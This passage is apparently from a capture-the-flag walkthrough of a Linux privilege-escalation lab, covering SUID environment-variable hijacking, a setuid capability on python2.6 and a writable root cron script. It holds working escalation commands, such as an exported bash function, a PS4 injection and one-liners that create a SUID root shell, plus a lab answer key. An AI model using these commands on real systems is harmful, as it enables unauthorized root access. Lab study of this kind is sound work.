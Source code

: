 ## Task 14 SUID (Environment Variables #2)

```bash
find / -type f -perm -4000 2>/dev/null
# /usr/local/bin/suid-env2
strings /usr/local/bin/suid-env2
# system
# /usr/sbin/service apache2 start
```

{% tabs %}
{% tab title="Method #1" %}
```bash
function /usr/sbin/service() { cp /bin/bash /tmp && chmod +s /tmp/bash && /tmp/bash -p; }
export -f /usr/sbin/service
suid-env2
```
{% endtab %}

{% tab title="Method #2" %}
```bash
env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp && chmod +s /tmp/bash)' /bin/sh -c 'suid-env2; set +x; /tmp/bash -p'
```
{% endtab %}
{% endtabs %}

#### What is the last line of the "strings /usr/local/bin/suid-env2" output?

{% hint style="success" %}
`/usr/sbin/service apache2 start`
{% endhint %}

## Task 15 Capabilities

```bash
getcap -r / 2>/dev/null
# /usr/bin/python2.6 = cap_setuid+ep
python2.6 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```

## Task 16 Cron (Path)

```bash
cat /etc/crontab 
# * * * * * root overwrite.sh
echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > /home/user/overwrite.sh
chmod +x /home/user/overwrite.sh
/tmp/bash -p
```

## Task 17 Cron (Wildcards)
